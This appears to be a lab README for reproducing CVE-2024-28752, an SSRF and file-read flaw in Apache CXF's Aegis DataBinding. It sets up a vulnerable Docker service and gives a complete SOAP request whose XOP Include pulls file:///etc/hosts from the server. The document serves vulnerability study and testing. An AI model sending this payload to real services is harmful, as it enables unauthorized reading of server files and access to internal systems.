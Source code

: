 # Apache CXF Aegis DataBinding Server-Side Request Forgery (CVE-2024-28752)

[中文版本 (Chinese version)](README.zh-cn.md)

Apache CXF is an open-source services framework that helps you build and develop services using frontend programming
APIs like JAX-WS and JAX-RS.

A SSRF vulnerability using the Aegis DataBinding in versions of Apache CXF before 4.0.4, 3.6.3 and 3.5.8 allows an
attacker to perform SSRF style attacks on webservices that take at least one parameter of any type. This vulnerability
specifically impacts services utilizing the Aegis DataBinding, while services using other data bindings, including the
default, are unaffected. Attackers can exploit this vulnerability to access internal resources by making the server send
requests to arbitrary URLs, potentially leading to information disclosure or further attacks against internal systems.

References:

- <https://github.com/advisories/GHSA-qmgx-j96g-4428>
- <https://nvd.nist.gov/vuln/detail/CVE-2024-28752>
- <https://github.com/ReaJason/CVE-2024-28752>

## Environment Environment

Execute the following command to start a vulnerable Apache CXF webservice with Aegis DataBinding:

```
docker compose up -d
```

After the service starts, the vulnerable CXF webservice will be accessible at `http://your-ip:8080/test?wsdl`. The
service is configured to use Aegis DataBinding and accepts various parameter types, making it vulnerable to SSRF
attacks.

## Vulnerability Reproduction

Send this request to the server:

```
POST /test HTTP/1.1
Host: your-ip:8080
Content-Type: multipart/related; boundary=----kkkkkk123123213
Content-Length: 472
Connection: close

------kkkkkk123123213
Content-Disposition: form-data; name="1"

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://service.namespace/">
   <soapenv:Header/>
   <soapenv:Body>
      <web:test>
         <arg0>
<count><xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="file:///etc/hosts"></xop:Include></count>
</arg0>
      </web:test>
   </soapenv:Body>
</soapenv:Envelope>
------kkkkkk123123213--
```

![1.png](1.png)
